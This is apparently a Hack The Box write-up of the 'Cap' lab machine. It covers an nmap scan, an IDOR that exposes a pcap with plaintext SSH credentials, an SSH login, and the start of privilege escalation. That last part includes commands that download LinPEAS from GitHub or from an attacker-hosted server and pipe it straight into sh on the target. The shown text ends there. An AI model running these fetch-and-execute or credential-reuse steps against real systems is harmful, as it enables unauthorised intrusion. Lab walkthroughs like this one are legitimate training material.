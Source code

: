 # Cap Write-up

<img src="https://labs.hackthebox.com/storage/avatars/70ea3357a2d090af11a0953ec8717e90.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.10.245`

    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp open  http    gunicorn
    |_http-title: Security Dashboard
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 404 NOT FOUND
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:14 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 232
    |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    |     <title>404 Not Found</title>
    |     <h1>Not Found</h1>
    |     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
    |   GetRequest: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:05 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 19386
    |     <!DOCTYPE html>
    |     <html class="no-js" lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <meta http-equiv="x-ua-compatible" content="ie=edge">
    |     <title>Security Dashboard</title>
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
    |     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    |     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
    |     <link rel="stylesheet" href="/static/css/themify-icons.css">
    |     <link rel="stylesheet" href="/static/css/metisMenu.css">
    |     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
    |     <link rel="stylesheet" href="/static/css/slicknav.min.css">
    |     <!-- amchar
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:06 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Allow: OPTIONS, HEAD, GET
    |     Content-Length: 0
    |   RTSPRequest: 
    |     HTTP/1.1 400 Bad Request
    |     Connection: close
    |     Content-Type: text/html
    |     Content-Length: 196
    |     <html>
    |     <head>
    |     <title>Bad Request</title>
    |     </head>
    |     <body>
    |     <h1><p>Bad Request</p></h1>
    |     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
    |     </body>
    |_    </html>
    |_http-server-header: gunicorn
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port80-TCP:V=7.94SVN%I=7%D=12/3%Time=674EECE9%P=x86_64-pc-linux-gnu%r(G
    SF:etRequest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
    SF:x20Tue,\x2003\x20Dec\x202024\x2011:35:05\x20GMT\r\nConnection:\x20close
    SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
    SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
    SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
    SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
    SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
    SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
    SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
    SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
    SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
    SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
    SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
    SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
    SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
    SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
    SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
    SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
    SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue,
    SF:\x2003\x20Dec\x202024\x2011:35:06\x20GMT\r\nConnection:\x20close\r\nCon
    SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20HEAD
    SF:,\x20GET\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
    SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
    SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
    SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
    SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
    SF:alid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;R
    SF:TSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
    SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
    SF:20Tue,\x2003\x20Dec\x202024\x2011:35:14\x20GMT\r\nConnection:\x20close\
    SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
    SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
    SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
    SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
    SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
    SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

### WEB 

![image](https://github.com/user-attachments/assets/ad734ab8-84dc-47ab-95aa-957270f3dd59)

IP config

![image](https://github.com/user-attachments/assets/f92207a3-25e2-4916-9916-64f7a61cc292)

Network Status

Security Snapshot

![image](https://github.com/user-attachments/assets/e9e48544-a992-4873-ab77-2ff74b04ffeb)

## Exploitation 

### IDOR

http://10.10.10.245/data/0

![image](https://github.com/user-attachments/assets/3a7f9411-16db-4c4d-8934-b43ee62cb419)

0.pcap

![image](https://github.com/user-attachments/assets/54407fd9-171b-410c-93ba-183c870c7876)

Credentials

`nathan`:`Buck3tH4TF0RM3!`

### SSH

Connect to SSH via `nathan` credetials!

    ssh nathan@10.10.10.245

Get the user flag!

![image](https://github.com/user-attachments/assets/6dc06f66-6358-4971-9cf8-d16cfc49df59)

### Privelege Escalation 

[LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/309566)

You can run linpeas from github

    curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

Or get it localy and run it. 

    # on host
    wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

    python3 -m http.server 80

    # on victim

    curl -l http://your-address/linpeas.sh | sh


